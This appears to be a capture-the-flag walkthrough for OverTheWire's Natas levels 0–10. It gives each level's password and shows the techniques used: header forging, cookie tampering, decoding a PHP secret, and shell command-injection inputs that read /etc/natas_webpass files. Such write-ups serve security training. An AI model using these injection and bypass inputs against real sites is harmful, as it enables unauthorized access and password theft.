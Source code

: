 # Natas0
## In the source code.<br>
flag:gtVrDuiDfck831PqWsLEZy5gyDz1clto 
# Natas1
## Use F12 to look at source code.<br>
flag:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
# Natas2
There is a image tag but it's from different folder
```html
<img src="files/pixel.png">
```
Just directly request /files folder by [http://natas2.natas.labs.overthewire.org/files](http://natas2.natas.labs.overthewire.org/files)
<br>flag:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
# Natas3 
In source code 
```html
<!-- No more information leaks!! Not even Google will find it this time... -->
```
[All info you need for this level](https://developers.google.com/search/docs/advanced/robots/robots_txt)
<br>flag:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
# Natas4
In this level you have to modified your request header. if you use chrome browser, you can download chrome extension at [here](https://chrome.google.com/webstore/detail/modheader/idgpnmonknjnojddfkpgkljpfnnfcklj?hc=search&hcp=main).
```
Referer:http://natas5.natas.labs.overthewire.org/
```
flag:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
# Natas5
[What is cookie](https://www.youtube.com/watch?v=rdVPflECed8)<br>
Look at the cookie in dev-tool -> apppliction, there is a cookie named loggedin change it to 1.<br>
![](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/image/natas5.png)
flag:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
# Natas6
Before try to solve this level, you have to have the basic understanding of [php](https://www.w3schools.com/php/).<br>
We can take a look at [source  code](http://natas6.natas.labs.overthewire.org/index-source.html).
```php

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

```
The script include another file at line 1, we can view that file.
<br>flag:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
# Natas7
We have a hint in source code.
```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

```
[What is Directory traversal](https://www.youtube.com/watch?v=NQwUDLMOrHo)
flag:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
# Natas8
```php

<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
Now we have a encoded password,we can reverse it step by step.
```python 
import base64

secret = "3d3d516343746d4d6d6c315669563362"
secret = bytes.fromhex(secret)
rev = secret.decode('utf-8')[::-1]
rev = base64.b64decode(rev)
print(rev.decode('utf-8'))
```
flag:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
# Natas9
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
Use ; to inject bash command, when we use ;ls as an input.The command will be executed like this:
```
grep -i; ls 
```
## The flag is in  /etc/natas_webpass/natas10
flag:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
# Natas10
In this level, the code filtered ; and &. But we can still use # to inject. # mean comment in bash script.
```
''  /etc/natas_webpass/natas11 #
```
Use /etc/natas_webpass/natas11 to replace dictionary.txt.<br> 
flag:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

